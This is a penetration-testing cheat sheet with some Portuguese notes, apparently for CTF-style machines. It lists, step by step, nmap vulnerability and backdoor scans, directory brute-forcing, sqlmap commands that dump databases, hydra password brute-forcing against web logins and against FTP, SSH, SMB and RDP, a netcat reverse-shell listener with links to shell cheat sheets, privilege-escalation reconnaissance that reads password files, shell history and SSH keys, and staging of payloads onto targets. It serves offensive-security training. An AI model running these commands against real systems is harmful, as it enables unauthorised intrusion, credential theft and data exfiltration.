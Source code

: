 # 1° Scan Nmap 

$sudo nmap -Pn -A [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn -sV -sC -O [Target_IP] -oN report-nmap.txt

$sudo nmap -Pn --script vuln [Target_IP]

$sudo nmap -Pn -p 80 --script http-enum,http-robots.txt [Target_IP]

$sudo nmap -Pn -p 80 --script http-sql-injection [Target_IP]

$sudo nmap -Pn -p 80 --script http-passwd --script-args http-passwd.root=/test/ [Target_IP]

$sudo nmap -Pn -p 80 --script http-vuln-* [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-anon [Target_IP]

$sudo nmap -Pn -p 21 --script ftp-proftpd-backdoor [Target_IP] - ProFTPD 1.3.3c

$sudo nmap -Pn -p 21 --script ftp-vsftpd-backdoor [Target_IP] - vsFTPd 2.3.4

#nmap -Pn -p 111 --script nfs-ls,nfs-statfs,nfs-showmount [Target_IP]

#nmap -Pn -p 445 --script smb-enum-shares,smb-enum-users [Target_IP]

#nmap -Pn -p 445 --script smb-vuln-* [Target_IP]

https://www.exploit-db.com

# 2° Scan Dirb/Gobuster

$dirb http://example.com -o dirb-report.txt

$gobuster -u http://example.com -x php,html,js,txt -w /usr/share/dirb/wordlists/big.txt dir

# 3° Scan SQLMap/Burp Suite/ZAP

$sqlmap -u http://Target_IP/login.php --forms --dump

$sqlmap -u http://Target_IP/listproducts.php?cat=1 –-dbs

$sqlmap -u  http://Target_IP/listproducts.php?cat=1 –-dbs -D products –-tables

Burp Suite > Proxy > Intercept > Open Browser > Intercept on

Burp Suite > Intruder > Sniper attack > Positions Add > Payload Type = Simple list

# 4° Brute Force

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$hydra -f -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP rdp

# 5° Scan SMB

$enum4linux -a Target_IP | tee enum4linux.log

# 6° Gain Access

http://example.com/login [Exibir código fonte da página]

http://example.com/ftp

http://example/upload

http://example.com/hiden/dir

http://example.com/robots.txt

$ftp Target_IP

$ssh user@Target_IP

$ssh -i id_rsa user@Target_IP

$ssh -oHostKeyAlgorithms=+ssh-rsa user@Target_IP

$sudo mount -o rw Target_IP:/backup /tmp/dir-target

$sudo mount -t cifs -o username=user_name //Target_IP/share_name /mnt/dir-target

$smbclient //Target_IP/shared/dir

# 7° Reverse Shell

Execute no terminal shell do Kali Linux $nc -lvnp 6666

php, python, nc

https://github.com/pentestmonkey/php-reverse-shell

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://www.sans.org/posters/netcat-cheat-sheet

# 8° Search Priv-Esc

$cat /etc/proc/version

$cat /etc/issue

$cat /etc/passwd

$cat /etc/crontab

$cat /etc/exports

$cat ~/.*history | less

$id

$ls -la /

$ls -la /home

$ls -la /home/user/.ssh

$sudo -l

$getcap -r / 2>/dev/null

$find / -perm -o w -type d 2>/dev/null

$find / -perm -u=s -type f 2>/dev/null

$find / -name perl* python* gcc* 2>/dev/nul

$find /home -name flag*.txt

$find / -user "www-data" -name "*" 2>/dev/null

https://gtfobins.github.io

https://www.exploit-db.com

# 9° Deploy Payload

$python2 -m SimpleHTTPServer 8000

$python3 -m http-server 8000

$scp payload.sh user@Target_IP:/home/user
